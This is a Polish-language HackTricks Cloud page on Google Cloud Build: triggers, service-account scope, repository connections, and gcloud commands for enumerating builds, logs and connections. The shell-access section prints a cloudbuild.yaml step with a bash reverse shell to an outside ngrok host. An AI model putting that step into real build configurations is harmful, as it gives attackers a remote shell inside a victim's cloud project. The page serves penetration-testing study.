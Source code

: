 # GCP - Cloud Build Enum

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Podstawowe informacje

Google Cloud Build to zarządzana platforma CI/CD, która **automatyzuje procesy budowy oprogramowania** i wydawania, integrując się z **repozytoriami kodu źródłowego** i obsługując szeroki zakres języków programowania. **Umożliwia programistom automatyczną budowę, testowanie i wdrażanie kodu**, zapewniając jednocześnie elastyczność w dostosowywaniu kroków budowy i przepływów pracy.

Każdy wyzwalacz Cloud Build jest **powiązany z Repozytorium Cloud lub bezpośrednio połączony z zewnętrznym repozytorium** (Github, Bitbucket i Gitlab).

{% hint style="success" %}
Nie widziałem sposobu na kradzież tokenu Github/Bitbucket stąd ani z Repozytoriów Cloud, ponieważ po pobraniu repozytorium jest ono dostępne za pośrednictwem adresu URL [https://source.cloud.google.com/](https://source.cloud.google.com/), a Github nie jest dostępny dla klienta.
{% endhint %}

### Wydarzenia

Cloud Build może zostać uruchomiony, jeśli:

* **Wprowadzono zmiany do gałęzi**: Określ gałąź
* **Dodano nową etykietę**: Określ etykietę
* **Pull request**: Określ gałąź, która otrzymuje PR
* **Ręczne wywołanie**
* **Wiadomość Pub/Sub**: Określ temat
* **Zdarzenie webhook**: Ujawni adres URL HTTPS, a żądanie musi być uwierzytelnione za pomocą sekretu

### Wykonanie

Istnieją 3 opcje:

* Plik yaml/json **określający polecenia** do wykonania. Zazwyczaj: `/cloudbuild.yaml`
* Jedna, która może być określona "w linii" w konsoli internetowej i w wierszu poleceń
* Najczęstsza opcja
* Istotna dla dostępu nieuwierzytelnionego
* **Dockerfile** do budowy
* **Buildpack** do budowy

### Uprawnienia SA

**Konto usługi ma zakres `cloud-platform`**, dzięki czemu może **korzystać ze wszystkich uprawnień.** Jeśli **nie jest określone SA** (jak przy przesyłaniu), zostanie użyte **domyślne SA** `<numer-projektu>@cloudbuild.gserviceaccount.com`.

Domyślnie nie są udzielane żadne uprawnienia, ale jest dość łatwo nadać mu kilka:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Zatwierdzenia

Możliwe jest skonfigurowanie Cloud Builda w taki sposób, aby **wymagał zatwierdzeń dla wykonania budowy** (domyślnie wyłączone).

### Połączenia i Repozytoria

Połączenia można tworzyć za pomocą:

* **GitHub:** Wyświetli monit OAuth, prosząc o uprawnienia do **uzyskania tokenu Github**, który zostanie przechowywany w **Menedżerze Sekretów.**
* **GitHub Enterprise:** Poprosi o zainstalowanie **GithubApp**. Token uwierzytelniający z hosta GitHub Enterprise zostanie utworzony i przechowywany w tym projekcie jako sekret **Menedżera Sekretów.**
* **GitLab / Enterprise:** Należy **podać token dostępu API i token dostępu do odczytu API**, które zostaną przechowywane w **Menedżerze Sekretów.**

Po utworzeniu połączenia można go użyć do **powiązania repozytoriów, do których konto Github ma dostęp**.

Ta opcja jest dostępna za pomocą przycisku:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Zauważ, że repozytoria połączone w ten sposób są **dostępne tylko w wyzwalaczach korzystających z 2. generacji.**
{% endhint %}

### Połącz Repozytorium

To nie to samo co **`połączenie`**. Pozwala to na **różne** sposoby uzyskania **dostępu do repozytorium Githuba lub Bitbucket**, ale **nie generuje obiektu połączenia, ale generuje obiekt repozytorium (1. generacji).**

Ta opcja jest dostępna za pomocą przycisku:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Przechowywanie

Czasami Cloud Build **generuje nowe miejsce przechowywania plików dla wyzwalacza**. Dzieje się to na przykład w przykładzie, który oferuje GCP z:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### Uzyskaj dostęp do powłoki

Utworzono kubełek o nazwie [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox), aby przechowywać plik `.tgz` z plikami do użycia.
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
Zainstaluj gcloud wewnątrz Cloud Build:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Wyliczanie

Możesz znaleźć **wrażliwe informacje w konfiguracjach budowy i logach**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Eskalacja uprawnień

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Nieuwierzytelniony dostęp

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Po wykorzystaniu

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
